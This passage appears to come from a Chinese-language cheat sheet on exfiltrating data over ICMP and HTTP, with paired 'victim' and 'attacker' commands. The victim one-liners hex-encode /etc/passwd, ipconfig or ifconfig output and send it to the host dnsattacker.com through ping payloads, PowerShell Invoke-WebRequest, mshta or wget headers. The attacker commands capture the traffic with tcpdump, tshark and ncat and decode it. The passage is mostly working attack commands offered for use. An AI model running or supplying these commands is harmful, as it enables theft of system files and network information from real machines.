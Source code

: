   
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpogjaFpJzzic2tjrvAIricX1nZ7ax8gQvKwBqw5C84avJ9RhNQx8DUFd3A/640?wx_fmt=png&from=appmsg "")  
  
**限制：**  
需要 Powershell  
##### Unix  
  
**受害者：**  

```
cat /etc/passwd | xxd -p -c 16 | while read exfil; do ping -p $exfil -c 1 dnsattacker.com;done
```

  
**攻击者：**  

```
sudo tcpdump  'icmp and src host 202.14.120.xx' -w icmp_file.pcap # 捕获
```

  
**提取**  

```
echo &#34;0x$(tshark -n -q -r icmp_file.pcap -T fields -e data.data | tr -d '\n' | tr -d ':')&#34; | xxd -r -p   # 或使用 Wireshark GUI
```

  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpo0NdCNM1e1Q5mdUXWahiaNjpWdgAicmNSR1ibaKJJOV9NcSucc6RVTtuKg/640?wx_fmt=png&from=appmsg "")  
#### HTTP  
##### Windows  
  
**受害者：**  

```
cmd /v /c &#34;ipconfig > temp && certutil -f -encodehex temp output.hex 12 && set /p MYVAR=<output.hex && set FINAL=&#34;http://dnsattacker.com:9000/!MYVAR!&#34; && powershell Invoke-WebRequest !FINAL!&#34;
```

  
**注意：**  
如果 powershell 不可用，使用 "mshta !Final!"。  
  
**攻击者：**  

```
echo &#34;0x$(ncat -lvp 9000 |grep -i get|tr -d '/' |cut -d ' ' -f2)&#34; |xxd -r -p
```

  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpoD28eDWiaiazIve7bc9uQNJkCHPSwJD7mh5hNvhpIiaOiclOCvO6BF5fJDQ/640?wx_fmt=png&from=appmsg "")  
##### Unix  
  
**受害者：**  

```
wget --header=evil:$(ifconfig|xxd -p -c 100000) http://dnsattacker.com:9000
```
